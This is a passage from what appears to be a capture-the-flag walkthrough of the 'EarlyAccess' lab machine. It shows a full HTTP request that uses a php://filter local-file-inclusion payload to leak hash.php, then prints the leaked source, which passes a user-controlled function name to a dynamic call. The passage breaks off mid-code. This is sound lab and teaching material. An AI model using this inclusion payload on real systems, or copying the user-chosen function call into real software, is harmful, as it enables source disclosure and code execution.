 According to PHP's [include() documentation](https://www.php.net/manual/en/function.include.php) (`include()` is conceptually related to `require_once()`), when a file is included, the parser switches from PHP parsing mode to HTML parsing mode. This means it will attempt to render the target file as HTML. However, if the file includes PHP tags, it will execute the code within those tags. In other words, `require_once()` will execute PHP files and read all others.

Unfortunately, there doesn't seem to be any files worth reading in the current directory except for the PHP source code files. Luckily, [PHP filters](https://www.php.net/manual/en/filters.php) can be passed to `require_once()` to transform the file's contents into another format instead of executing it. Use PHP's `convert.base64-encode` filter to return the base64-encoded the contents of `hash.php`.

```http
GET /actions/file.php?filepath=php://filter/convert.base64-encode/resource=hash.php HTTP/1.1
Host: dev.earlyaccess.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6IkJnUjkzN1BUSlRtMFZjS09WVlJtaHc9PSIsInZhbHVlIjoiZFJCS3c5eDlPZXJzS1V2S0ZyVTZxV3FGc0kySUkzTmpJcVBrOGFGV3RZMVhLSWtSYUViWmNLa29yL2c0VkNWWEh6YnpXL21YYjVZTzUrMFVSWTNHRDlRL2psQUFEeE83aHFuYzk5ZkFWT3AzaDY3VXJpcmF0Nm43eTVmVjZyTW8iLCJtYWMiOiI4NmM5NzFjY2MzNDc0ZGQ3MTZiYzk3NzgxNzU3N2NiMTA5OWUwYWEwYzM1OGI0MTUzMjA5NDRlMmVhNTI5OTc3In0%3D; earlyaccess_session=eyJpdiI6IlVDMDhnbFBobjF3c3JXWEFvOWdURXc9PSIsInZhbHVlIjoiQWdDTEYxRG9MNDBGQkMwOGQ2d290bFN4U2tMejY5dDI5UXROWjYwc1BEbFRCelcvSUZrd3NFcWtrcXdPQXYzeURCYjk1MVNEUmxiWlBYNVgvUFQ3emVKS2t0QVE0UXVLcmFOWHdZZFZ6V0ZYZS9JVHh5NVpLZFR1MWhHKy9pNTMiLCJtYWMiOiJhNDU3ZDFkOWRmYzcyZTliOWFkYzlmZmYwMDEzN2I3Y2NjNTEyZWU4YTcyODc1ZWYyZjQ5YmU3NTQ1YjRiMjg3In0%3D; PHPSESSID=16c4a8a50df5a5606f00a6dbadc599cc
Upgrade-Insecure-Requests: 1
```

The resulting base64-decoded source code:

```php
<?php
include_once "../includes/session.php";

function hash_pw($hash_function, $password)
{
    // DEVELOPER-NOTE: There has gotta be an easier way...
    ob_start();
    // Use inputted hash_function to hash password
    $hash = @$hash_function($password);
    ob_end_clean();
    return $hash;
}

try
{
    if(isset($_REQUEST['action']))
    {
        if($_REQUEST['action'] === "verify")
        {
            // VERIFIES $password AGAINST $hash

            if(isset($_REQUEST['hash_function']) && isset($_REQUEST['hash']) && isset($_REQUEST['password']))
            {
                // Only allow custom hashes, if `debug` is set
                if($_REQUEST['hash_function'] !== "md5" && $_REQUEST['hash_function'] !== "sha1" && !isset($_REQUEST['debug']))
                    throw new Exception("Only MD5 and SHA1 are currently supported!");

                $hash = hash_pw($_REQUEST['hash_function'], $_REQUEST['password']);

                $_SESSION['verify'] = ($hash === $_REQUEST['hash']);
```